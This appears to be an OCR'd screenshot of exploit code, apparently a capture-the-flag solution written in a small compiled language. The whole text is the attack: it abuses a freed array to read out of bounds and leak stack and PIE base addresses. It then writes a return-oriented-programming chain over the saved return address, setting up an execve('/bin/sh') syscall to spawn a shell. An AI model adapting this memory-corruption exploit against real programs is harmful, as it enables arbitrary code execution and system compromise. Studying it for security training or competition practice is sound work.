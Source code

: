 ```python
    c = 0x43434343
    a2 = a
    d = 0x44444444
    print_arr(a)
    return fetch(a, 999)

def leak_array_stack(a):
    b = 0x42424242
    # b = array(10)
    return deeper(a)

def pie_deeper(a):
    return fetch(a, 999)

def leak_pie_addr(a):
    return pie_deeper(a)

# 993 is location of saved rip for returning from this function!
def do_rop_deeper(a, array_addr, gadget_addr, syscall_addr):
    e = 0x45454545
    a2 = a
    array_addr2 = array_addr
    gadget_addr2 = gadget_addr
    syscall_addr2 = syscall_addr
    f = 0x46464646
    bin_sh = 0x6e69622f
    # necessary, otherwise gcc complains about too large constants :/
    bin_sh = bin_sh | (0x0068732f * 65536 * 65536)
    print_arr(a)
    store(a2, 993, gadget_addr2)
    store(a2, 994, 0) # rdx
    store(a2, 0, bin_sh)
    store(a2, 995, 0) # rsi
    store(a2, 996, array_addr2 + 8) # rdi
    store(a2, 997, 59) # rax = syscall number
    store(a2, 998, 0x41414141) # rbp
    store(a2, 999, syscall_addr2)

def do_rop(a, array_addr, gadget_addr, syscall_addr):
    do_rop_deeper(a, array_addr, gadget_addr, syscall_addr)

def main():
    b = 0x41414242
    a = create_freed_array()
    # print_arr(a)
    array_stack_addr = leak_array_stack(a)
    pie_addr = leak_pie_addr(a)
    pie_base = pie_addr - 0x13f2
    # array_stack_addr = leak_array_stack(a)
    # print_hex_num(0x7ffffffff000)
    print_hex_num(array_stack_addr)
    putc(0xa)
    print_hex_num(pie_addr)
    putc(0xa)
    do_rop(a, array_stack_addr, pie_base + 0x135C, pie_base + 0x1661)
    d = getc()
    putc(0xa)
    putc(d)
```
